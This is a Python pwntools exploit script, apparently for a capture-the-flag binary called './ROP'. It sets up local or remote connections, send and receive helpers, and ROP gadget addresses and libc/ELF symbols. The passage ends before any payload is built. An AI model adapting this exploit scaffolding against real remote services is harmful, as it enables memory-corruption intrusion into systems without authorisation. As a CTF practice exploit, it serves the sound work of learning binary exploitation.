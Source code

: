 ```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './ROP'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc # '../libc.so.6'

is_local = False
is_remote = False

if len(sys.argv) == 1:
    is_local = True
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

# info
# gadget
prdi = 0x0000000000400a43 # pop rdi ; ret
leave = 0x000000000040090d # leave ; ret
m3c = 0x00400a20
p6r = 0x00400a3a
prsi = 0x0000000000400a41 # pop rsi ; pop r15 ; ret
prbp = 0x0000000000400830 # pop rbp ; ret

# elf, libc
buf = 0x6010a0
open_func = 0x400985
read_plt = elf.symbols['read']
main = elf.symbols['main']
open_plt = elf.symbols['open']
puts_plt = elf.symbols['puts']
bss_base = elf.bss() + 0x200
```